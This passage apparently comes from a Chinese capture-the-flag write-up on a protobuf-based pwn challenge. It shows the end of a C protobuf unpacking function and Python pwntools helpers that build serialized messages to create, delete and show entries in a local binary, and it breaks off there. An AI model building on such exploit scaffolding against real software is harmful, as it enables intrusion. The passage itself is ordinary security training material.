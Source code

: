 ```c
	return NULL;

error_cleanup_during_scan:
	do_free(allocator, rv);
	for (j = 1; j <= which_slab; j++)
		do_free(allocator, scanned_member_slabs[j]);
	if (required_fields_bitmap_alloced)
		do_free(allocator, required_fields_bitmap);
	return NULL;
}
```

#### 动态分析
首先编写交互逻辑，主要是将create函数和show函数用python实现出来
```python
from pwn import *
import heybro_pb2

p = process("./pwn")

context.log_level = 'debug'
#context.terminal = ['tmux','splitw','-h']

def create(idx,content):
    data = heybro_pb2.heybro()
    data.whattodo = 1
    data.whatcon = content
    data.whatidx = idx
    data.whatsize = 0
    data.whatsthis = 0
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def delete(idx):
    data = heybro_pb2.heybro()
    data.whattodo = 2
    data.whatcon = b'0'
    data.whatidx = idx
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def show(idx):
    data = heybro_pb2.heybro()
    data.whattodo = 3
    data.whatcon = b'0'
    data.whatidx = idx
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def do_nothing(content):
    data = heybro_pb2.heybro()
    data.whattodo = 0
    data.whatcon = content
    data.whatidx = 1
    data.whatsize = 1
    data.whatsthis = 1
```